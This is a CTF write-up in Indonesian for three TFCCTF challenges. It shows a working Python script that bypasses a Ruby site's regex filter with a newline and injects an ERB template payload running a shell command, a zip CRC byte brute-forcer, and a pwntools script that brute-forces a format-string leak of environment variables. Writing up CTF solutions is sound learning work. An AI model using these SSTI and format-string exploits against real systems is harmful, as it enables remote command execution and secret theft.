 ## DIAMONDS

Note: Perlu kita ketahui bahwa website ini dibuat menggunakan ruby

Website memfilter regex ekspression, dimana regex expression in tidak menghitung newline pada parameter yang diinputkan, mengakibatkan kita bisa membypass filter dengan menginputkan url encode "%0A" ke dalam http post requests.

contoh parameter post request untuk membypass regex

```
input=mabar%0A<ini tidak ke filter>
```


Setelah kita bypass kita mencoba salah satu common vulnerability yang biasanya terdapat dalam library WEB untuk bahasa pemrograman OOP yaitu SSTI

untuk payload saya mengambil dari website ini :https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

```python
import requests
import urllib.parse as up

URL = "http://01.linux.challenges.ctf.thefewchosen.com:57588"
class Exploit:
    def __init__(self, param, url=URL):
        self.session = requests.Session()
        # self.session.proxies = {'http': 'http://localhost:8080'}
        self.param = param
        self.url = url
        
    def payloadAndBypass(self, malcode):
        '''bypass regex expression with newline (e.g. \\n)'''
        bypass = "asd\n"
        payload = bypass+malcode
        return {"input":payload}
    
    def start(self):
        r = self.session.post(self.url, data=self.payloadAndBypass(self.param))
        return r.text


param = """<%= IO.popen('cat ./flag.txt').readlines()  %>"""

n = Exploit(param=param).start()
print(n)
```
### referensi
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md


## ADDING IN PARTS
cat = forensics setelah di analisa, ternyata CRC nya tidak valid, kemungkinan data di dalamnya berubah, untungnya yang berubah cuman 1 bytes jadi aku buat script untuk bruteforce isi dari bytes yang berubah

```python
from zipfile import BadZipFile, ZipFile

strings = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_}{"
a = 31
flag = ""
for i in range(0,22):
    f = open(f"{i}.zip", "rb").read()
    j = 0
    open("temp.zip", "wb").write(f)
    if i == 10:
        a = 32
        flag += "c"
        continue
    while len(flag) != i+1:
        try:
            zi = ZipFile("temp.zip", "r")
            flag += zi.read(f"{i}").decode()
            print("process", end="\r")
        except BadZipFile:
            f = f[:a] + strings[j].encode() + f[a+1:]
            open("temp.zip", "wb").write(f)
            j += 1

print(flag)
```
================
TFCCTF{ch3cksum2_g0od}

## GETENV 

Vulnerabiliy kali ini adalah format string vulnerability, dimana kita dapat me-leak flag yang terdapat di env-variable dengan cara bruteforce.

Disini saya menggunakan parameter contoh `%1$s` , untuk meleak flag, itu kita lakukan berkali-kali sampai flagnya terlihat

Referensi:[https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b "https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b")

```python
import pwn
import threading

# remove debug output
pwn.context.log_level = 'WARNING'

def brute_format_str(num, file):
    with pwn.remote('01.linux.challenges.ctf.thefewchosen.com', 58846) as r:
        try:
            payload = f"%{num}$s"
            p = r.recv(1000)
            p = r.sendline(payload)
            p = r.recv(1000)
        except:
            pass
    try:
        file.write(p)
    except:
        pass
        

with open("dump.txt", "ab") as f:
    for i in range(0,100):
        t = threading.Thread(target=brute_format_str, args=(i,f))
        t.start()
        if i % 10 == 0:
            t.join()
```
